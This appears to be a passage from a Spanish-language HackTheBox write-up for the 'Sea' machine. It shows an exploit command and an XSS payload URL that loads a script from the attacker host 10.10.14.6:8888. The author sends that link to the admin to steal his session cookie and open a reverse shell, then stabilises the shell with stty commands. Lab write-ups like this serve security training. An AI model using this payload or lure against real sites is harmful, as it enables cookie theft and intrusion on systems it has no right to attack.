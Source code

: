 ```bash 
python3 exploit.py -u http://sea.htb/loginURL  -lh 10.10.14.6 -lp  7777  -sh 10.10.14.6 -sp 8888
```

![[Pasted image 20250512124347.png]]


El script nos genera la petición que deberemos proporcionar al administrador del sitio para robar su cookie de sesión y realizar la inyección:

```
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.6:8888/xss.js"></script><form+action="
```

Para ello nos vamos a servir del campo Website del formulario, el cual generará un hipervínculo y confiaremos en que el administrador que lo reciba haga click en él.

![[Pasted image 20250512131848.png]]

En pocos segundos veremos como se realiza la petición al recurso malicioso:

![[Pasted image 20250512132034.png]]

Y recibimos la reverse shell en nuestro host de ataque:

![[Pasted image 20250512132004.png]]

### Mejorando la shell

```bash
script /dev/null -c bash
Crtl +z 
(suspended)
stty raw -echo;fg
reset xterm
export TERM=xterm
```

En nuestro host de ataque
```bash
stty size
```

En el host comprometido
```bash
stty rows X columns Y
```


### FootHold

Enumeramos el sistema y vemos que existen 2 usuarios en el directorio /home, pero no podemos leer la primera flag en el directorio del usuario amay:

```bash
www-data@sea:/home/amay$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
www-data@sea:/home/amay$ 
```
